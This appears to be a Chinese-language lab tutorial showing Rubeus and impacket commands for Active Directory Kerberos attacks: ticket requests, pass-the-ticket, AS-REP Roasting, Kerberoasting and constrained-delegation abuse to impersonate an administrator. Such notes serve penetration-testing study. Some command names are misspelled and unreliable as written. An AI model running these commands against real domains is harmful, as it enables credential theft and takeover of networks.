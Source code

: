 注：Rubeus没有发布预构建二进制版本，需要自行使用vs编译

# 一、申请TGT
明文密码申请TGT，base64格式打印出来，并导入到内存，导出成文件

```powershell
Rubeus.exe asktgt /domain:sec.com /user:administrator /password:Az123456@ /nowrap /ptt /debug
```

![](../images/ce09a3c998dfc2f3bd02388915a3d8ec.png)

![](../images/6d99d49a102b338dd8188bcc005a4a0e.png)

# 二、申请ST
## 1、申请TGT
第一步申请的TGT复用

## 2、申请ST
使用上一步导出的TGT去申请ST

```powershell
Rebeus.exe asktgs /service:"cifs/win2019-1.sec.com" /nowrap /ptt /ticket:ticket.kirbis
```

![](../images/dda89cd41afe608d0023fc1a9ab66e4f.png)

![](../images/e8d0d696292aa8255e47cc3c746a77c4.png)

# 三、Rubeus导入票据
这里可以选择使用文件导入，或者base64导入

```powershell
Rubeus.exe ptt /ticket:ticket.kirbi
Rubeus.exe ptt /ticket:[base64 code]
```

# 四、AS-REP Roasting攻击
该工具会自动搜索域内不要求kerberos预身份验证的用户，并以该用户身份发送AS-REQ，域控会直接返回AS-REP包，内含net-ntlm

在默认情况下，AD域默认启用预身份验证

![](../images/e0023d05ce978dd9185a6dad3bc2a1f1.png)

但是可以在用户配置里禁用，以testuser为例

![](../images/4c4d76bde9b7f103aab4b0ac149a75e1.png)

可以看到，Rubeus成功检索到该用户

![](../images/c2309504b27f685a3de6444640509999.png)

使用John即可破解，这里不演示

![](../images/077d95b5e9967b5b580022cf9b639725.png)

# 五、Kerberoasting攻击
[https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting)

```powershell
Rubeus.exe kerberoat /format:json /outfile:hash.txt
```

服务账户的意义是为了给某个服务提供一个<font style="color:#DF2A3F;">限制资源</font>的账户（SPN），虽然任意域用户都可以向任意服务申请一张ST票据，但是这张ST票据去访问服务的时候，KDC只负责发放ST票据，至于实际有没有权限访问，还得看服务端认不认可ST票据内用户权限。

就比如下图klist，虽然以testnoadmin申请到了ldap/win2019-1.sec.com/sec.com的ST票据，但是客户端实际没有权限访问win2019-1的ldap服务，所以申请了票据但是用不出去。

![](../images/1eb50285c36ca0bde22db101f05bd8d6.png)

但是如果申请回来的ST票据，是RC4加密的，就有机会穷举破解，因为RC4-HMAC相对于图中的AES-256不安全

![](../images/9ec996c5f54abd212a1200363c61615d.png)

# 六、委派攻击
## 1、约束性委派攻击
首先创造一个机器账户machine$

```powershell
impacket-addcomputer sec.com/testnoadmin:Az123456@! -computer-name machine1$ -computer-pass Az123456@ -dc-ip 172.16.80.189
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account machine1$ with password Az123456@.
```

发起约束性委派攻击，以machine1$身份委派获取cifs/win2019-1.sec.com的ST票据

首先计算aes256/rc4，因为后续的委派攻击只能使用这两种密文

```powershell
.\Rubeus hash /user:machine1$ /password:Az123456@ /domain:sec.com
```

![](../images/29f2d276d7f7d29d2749f6c782b91a12.png)

设置委派

![](../images/61550b586a611e40de76b29e69b898da.png)

然后发起约束性委派攻击，分三步：

```powershell
Rubeus.exe s4u /user:machine1$ /rc4:[rc4_hash] /domain:sec.com /msdsspn:cifs/win2019-1.sec.com /impersonatuser:administrator /ptt
```

第一步：使用自己的hash向KDC申请一个TGT票据

![](../images/e97ec4ac7c01e130fd6ba67e9a550547.png)

第二步：服务1代表用户申请一个获得针对服务1自身的kerberos服务票据(S4U2SELF)，这一步生成的TGS票据是可转发的TGS票据。

![](../images/d4078a8f718eb63208b81d515c3a9b8d.png)

第三步：服务1使用来自用户的授权( 在S4U2SELF阶段获得的可转发的TGS)，然后用该TGS(放在AddtionTicket里面)向KDC请求访问服务2的TGS，返回的TGS是可转发的。

![](../images/0dc1ee4f768f2ff5bb173c173746c4bd.png)

![](../images/14d38516324bafd1170b295ee262fb87.png)

![](../images/bb9b70ce9a336525bb3f598e208b0a08.png)

PS:我们不仅可以访问约束委派配置中用户可以模拟的服务，还可以访问使用与模拟帐户权限允许的任何服务。（因为未检查 SPN，只检查权限）。